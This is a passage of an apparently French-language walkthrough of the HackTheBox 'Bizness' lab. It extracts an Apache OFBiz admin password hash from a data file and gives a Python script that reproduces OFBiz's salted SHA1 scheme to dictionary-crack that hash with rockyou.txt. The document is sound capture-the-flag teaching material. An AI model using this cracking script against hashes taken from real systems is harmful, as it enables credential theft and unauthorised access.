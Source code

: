 ```
strings dat_files.txt | grep SHA
```

Un hachage est trouvé.

![hash found](/images/HTB-Bizness/hash1.png)

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

Dans le même fichier, nous trouvons une ligne avec `admin` comme nom d'utilisateur, ce qui suggère qu'il s'agit du hash du mot de passe de l'administrateur. Mais nous ne sommes pas en mesure de craquer le hash. Nous disposons maintenant de deux hashs mais aucun moyen de les craquer.

![admin username](/images/HTB-Bizness/login-admin.png)

Nous procédons autrement, en chiffrant chaque ligne de la liste de mots `rockyou.txt` et en les comparant au dernier hash trouvé. La correspondance révélera le mot de passe.

> Vous pouvez consulter le [code source](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) d'Apache OFBiz pour voir comment les hashs sont générés. 

```python
import hashlib
import base64
import os

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Iterate through the wordlist and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in password_list:
        value = password.strip()
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        if hashed_password == search:
            print(f'Password found: {value}, hash: {hashed_password}')
            break
```
